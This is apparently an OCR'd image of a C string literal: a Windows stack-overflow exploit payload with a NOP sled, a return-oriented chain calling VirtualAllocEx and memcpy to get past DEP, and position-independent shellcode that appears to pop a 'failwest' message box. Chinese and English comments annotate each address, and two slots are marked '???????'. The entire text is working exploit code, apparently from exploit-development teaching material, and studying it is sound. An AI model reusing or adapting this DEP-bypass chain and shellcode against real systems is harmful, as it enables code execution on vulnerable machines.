 ```c
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//address of PUSH ESP POP EBP RETN 4 
    "\xBC\x45\x82\x7C"//address of call VirtualAllocEx
    "\x90\x90\x90\x90"//
    "\xFF\xFF\xFF\xFF"//hProcess = -1 ,-1 stands for current process
    "\x00\x00\x03\x00"//lpAddress = 00030000
    "\xFF\x00\x00\x00"//dwSize= 0xff
    "\x00\x10\x00\x00"//flAllocationType = 0x1000
    "\x40\x00\x00\x00"//flProtect = 0x40,stands for exec_read_write
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7c"//=[0012fed4] address of pop eax ret
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x0B\x1A\xBF\x7C" // 这个位置是VirtualAlloc 调用后ret 10返回后esp指向的位置，也是pop eax指令赋给eax的内容.
    "\xBA\xD9\xBB\x7C" // EBP之前被破坏，现在调整EBP值（现在为90909090，应当使其为esp或相近值） address of PUSH ESP POP EBP RET 4
    "\x5F\x78\xA6\x7C"//address of pop ecx retn
    "\x00\x00\x03\x00"// 这里是下面memcpy执行返回前esp所执向，所以安排可执行地址00030000,也可以根据实际shellcode位置进行更精确定位
    "\x00\x00\x03\x00"//可执行内存空间地址,memcpy目标地址
    "\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址
    "\xFF\x00\x00\x00"//shellcode 长度
    "\xAC\xAF\x94\x7C"//memcpy 函数切入点; 
    "\x00\x00\x03\x00"//???????
    "\x00\x00\x03\x00"//???????
    "\x00\x90\x90\x94"
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" 
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
    ;
```
